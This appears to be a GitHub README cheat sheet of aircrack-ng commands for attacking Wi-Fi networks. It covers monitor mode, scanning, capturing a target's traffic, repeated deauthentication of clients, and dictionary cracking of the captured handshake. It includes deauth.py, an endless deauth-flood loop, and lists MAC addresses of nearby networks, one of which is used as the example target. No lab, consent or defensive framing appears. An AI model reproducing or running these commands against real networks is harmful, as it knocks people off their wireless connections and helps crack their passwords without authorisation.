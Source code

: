 ### Enable monitor mode
``` bash
sudo ifconfig wlan0 down
# sudo airmon-ng check kill
sudo airmon-ng start wlan0
```


### Set Channel

``` bash
sudo iw dev wlan0mon set channel 8
```


### Airodump-ng scanning
``` bash
sudo airodump-ng wlan0mon

# ex)
# 70:5D:CC:65:45:C2 - 305
# 88:36:6C:90:F4:DE - Iptime
# 70:5D:CC:6C:F2:80 - O
# 70:5D:CC:8A:A2:7E - iptime
# 80:4E:81:0A:75:83 - my phone
```


### Save traffic packets
``` bash
sudo airodump-ng --bssid 00:00:00:00:00:00 -w filename wlan0mon
```


### Execute aireplay-ng
``` bash
sudo aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon

# ex)
# sudo aireplay-ng --deauth 100 -a 70:5D:CC:65:45:C2 wlan0mon
```

### deauth.py
```python
import os, time

while True:
	os.system("aireplay-ng --deauth 10 -a 00:00:00:00:00:00 wlan0")
	time.sleep(1)

```

```bash
sudo python3 deauth.py
```




### Aireplay-ng error : (wlan0mon is on channel 2, but the AP uses channel 5)
``` bash
sudo airmon-ng start wlan0mon 5
sudo iwconfig wlan0mon channel 5
```



### Cracking password
``` bash
sudo aircrack-ng filename.cap -w dict.lst
```
